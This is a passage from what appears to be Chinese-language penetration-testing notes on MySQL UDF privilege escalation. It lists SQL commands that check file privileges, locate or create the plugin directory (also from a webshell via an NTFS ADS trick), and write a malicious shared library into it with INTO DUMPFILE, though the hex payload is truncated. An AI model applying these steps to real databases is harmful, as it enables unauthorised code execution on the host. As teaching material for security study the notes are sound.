 <img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/image-20220521161008937.png" alt="image-20220521161008937" style="zoom:67%;" />





```
select @@secure_file_priv;查看有没有文件操作权限

使用 select @@plugin_dir 查看当前数据库扩展插件存放的位置
也可以
show variables like '%plugin%';

如果不存在的话可以在 webshell 中找到 MySQL 的安装目录然后手工创建 \lib\plugin 文件夹：
mysql > select 233 into dumpfile 'C:\\PhpStudy\\PHPTutorial\\MySQL\\lib\\plugin::$index_allocation';

通过 NTFS ADS流创建文件夹成功率不高，目前 MySQL 官方貌似已经阉割了这个功能。那么如果找到 MySQL 的安装目录呢？通用也有对应的 SQL 语句可以查询出来
mysql> select @@basedir;
+------------------+
| @@basedir        |
+------------------+
| /usr/local/mysql |
+------------------+
```

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/image-20220521163439745.png" alt="image-20220521163439745" style="zoom:50%;" />



#### 法一：使用metasploit自带的动态链接库手动写入

可以直接在msf里使用searchsploit

```
searchsploit 1518
```



##### 写入动态链接库

如果存在SQL注入的话，可以通过sqlmap参数来上传动态链接库，但需要满足一定条件

没有注入的话，用SQL语句，条件：secure_file_priv 无限制

```
# 直接 SELECT 查询十六进制写入
SELECT 0x7f454c4602... INTO DUMPFILE '/usr/lib/mysql/plugin/udf.so';

# 解码十六进制再写入多此一举
SELECT unhex('7f454c4602...') INTO DUMPFILE '/usr/lib/mysql/plugin/udf.so';
```

> [MySQL UDF 提权十六进制内容查询](https://www.sqlsec.com/tools/udf.html)

![image-20220522163416984](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/image-20220522163416984.png)

这里好像因为文件内容太长，写不进去文件，但是测试发现是可以写入短的
